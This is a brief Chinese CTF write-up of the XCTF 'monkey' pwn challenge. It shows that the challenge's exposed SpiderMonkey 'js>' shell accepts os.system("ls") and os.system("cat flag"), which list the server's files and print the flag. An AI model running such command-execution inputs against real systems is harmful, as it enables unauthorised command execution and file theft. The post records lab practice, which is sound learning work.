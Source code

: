 ```yaml
---
layout: post
title:  monkey
date:   2020-09-29 00:01:01 +0300
image:  2020-09-29-mountain.jpg
tags:   [ctf,pwn,XCTF]
---
```


这道题就离谱

交互界面

```assembly
js>
```

输入os.system("ls")

```assembly
bin
dev
flag
js
lib
lib32
lib64
libnspr4.so
libplc4.so
libplds4.so
run.sh
```

os.system("cat flag")得到flag

具体什么原理还不是很清楚。。。。。。。。。。。。。
